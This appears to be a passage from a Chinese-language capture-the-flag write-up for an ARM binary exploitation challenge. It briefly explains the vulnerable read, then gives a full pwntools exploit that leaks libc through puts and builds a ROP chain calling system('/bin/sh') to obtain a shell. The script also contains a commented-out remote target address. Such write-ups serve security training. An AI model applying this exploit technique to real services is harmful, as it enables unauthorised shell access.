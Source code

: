 ```plain
    printf("comment> ");
    return read(0, v2, 256u);
  }
  return result;
}
```

逆向分析一下，malloc 申请 0x80 的空间存储输入的 msg 的值，s 同理

这里利用 strcmp() 进行比较，如果 res 与 Sp5jS6mpH6LZC6GqSWe=相等，那么就会提示我们输入内容，利用 read() 进行读取我们输入的内容

其实就是利用 ret2csu 的打法泄露 libc 基地址，将 system，binsh 利用 read 写入之后再调用从而 getshell

exp:

```plain
from pwn import *
p = process(["qemu-arm","-g", "1212","-L", "/usr/arm-linux-gnueabi/", "./chall"])
p = process(['qemu-arm','-L','/usr/arm-linux-gnueabi/','./chall'])
#p = remote('47.108.29.107',10244)
context.log_level='debug'
context.arch='arm'

elf = ELF('./chall')
libc = ELF('./libc-2.27.so')
#context.terminal = ['gnome-terminal','-x','sh','-c']

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))

sla('msg> ','s1mpl3Dec0d4r')
r4 = 0x00010cb0
r3 = 0x00010464
movcall = 0x00010ca0
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
leak('puts',puts_plt)
ret_addr=0x0010B60

pl = b'a'*0x2c+p32(r4)+p32(0)+p32(0)+p32(0)+p32(puts_got)+p32(0)+p32(0)+p32(0)+p32(r3)+p32(puts_plt)+p32(movcall)+p32(0)+p32(0)+p32(0)+p32(0)+p32(0)+p32(0)+p32(0)+p32(ret_addr)
pause()

p.sendlineafter('comment> ',pl)

libcbase = uu32(r(4)) - libc.sym['puts']
leak('libcbase',libcbase)

system = libcbase + libc.sym['system']
binsh = libcbase + next(libc.search(b"/bin/sh\00"))

sla('msg> ','s1mpl3Dec0d4r')

pl = b'a'*44+p32(r4)+p32(0)+p32(0)+p32(0)+p32(binsh)+p32(0)+p32(0)+p32(0)+p32(r3)+p32(system)+p32(movcall)

p.sendlineafter('comment> ',pl)
```